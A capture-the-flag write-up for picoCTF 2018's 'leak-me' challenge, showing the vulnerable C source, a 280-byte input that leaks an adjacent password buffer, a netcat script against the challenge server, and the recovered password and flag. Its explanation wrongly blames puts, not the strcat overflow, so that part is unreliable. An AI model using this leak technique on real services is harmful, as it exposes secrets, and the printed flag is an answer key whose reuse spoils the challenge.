

Let's start by running the binary with the files under our control to see if the flag is indeed given to us under the right conditions

```
~/ctf_writeups/pico2018/binary/leak-me# echo "pass" > password.txt
~/ctf_writeups/pico2018/binary/leak-me# echo "Ima Flag" > flag.txt
~/ctf_writeups/pico2018/binary/leak-me# ./auth 
What is your name?
test
Hello test,
Please Enter the Password.
pass
Ima Flag
~/ctf_writeups/pico2018/binary/leak-me#
```

Ok, so we need to get the password from password.txt so we can use that in our input and get the flag.

Lets take a look at the source

## auth.c

Here we have our flag() function that will pring the flag for us
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

int flag() {
  char flag[48];
  FILE *file;
  file = fopen("flag.txt", "r");
  if (file == NULL) {
    printf("Flag File is Missing. Problem is Misconfigured, please contact an Admin if you are running this on the shell server.\n");
    exit(0);
  }

  fgets(flag, sizeof(flag), file);
  printf("%s", flag);
  return 0;
}
```
Nothing too special here except the puts() function seems to be vulnerable as it does not check our input size
```c
int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  // Set the gid to the effective gid
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  
  // real pw: 
  FILE *file;
  char password[64];
  char name[256];
  char password_input[64];
  
  memset(password, 0, sizeof(password));
  memset(name, 0, sizeof(name));
  memset(password_input, 0, sizeof(password_input));
  
  printf("What is your name?\n");
  
  fgets(name, sizeof(name), stdin);
  char *end = strchr(name, '\n');
  if (end != NULL) {
    *end = '\x00';
  }

  strcat(name, ",\nPlease Enter the Password.");

  file = fopen("password.txt", "r");
  if (file == NULL) {
    printf("Password File is Missing. Problem is Misconfigured, please contact an Admin if you are running this on the shell server.\n");
    exit(0);
  }

  fgets(password, sizeof(password), file);

  printf("Hello ");
  puts(name);

  fgets(password_input, sizeof(password_input), stdin);
  password_input[sizeof(password_input)] = '\x00';
```

If given password matches password.txt then print the file

```c  
  if (!strcmp(password_input, password)) {
    flag();
  }
  else {
    printf("Incorrect Password!\n");
  }
  return 0;
}
```

Lets see if we can just print a bunch of junk since puts is not checking our input size.

```
~/ctf_writeups/pico2018/binary/leak-me# python -c 'print "A"*280' | ./auth
What is your name?
Hello AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA,pass

Incorrect Password!
```

Uhh, our password is given back to us. This means that if its not random we can simply just reload the program and give that password. Lets connect to the server and see.

Simple bash script 

```bash
#!/bin/bash

python -c 'print "A"*280' | nc 2018shell.picoctf.com 57659

```

This results in the following output on the server:

```
~/ctf_writeups/pico2018/binary/leak-me# ./connect.sh 
What is your name?
Hello AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA,a_reAllY_s3cuRe_p4s$word_56b977

Incorrect Password!
```

Now we can reconnect manually and get our flag

<details>
	<summary>Flag</summary>

```
~/ctf_writeups/pico2018/binary/leak-me# nc 2018shell.picoctf.com 57659
What is your name?
test
Hello test,
Please Enter the Password.
a_reAllY_s3cuRe_p4s$word_56b977
picoCTF{aLw4y5_Ch3cK_tHe_bUfF3r_s1z3_2b5cbbaa}
```
</details>
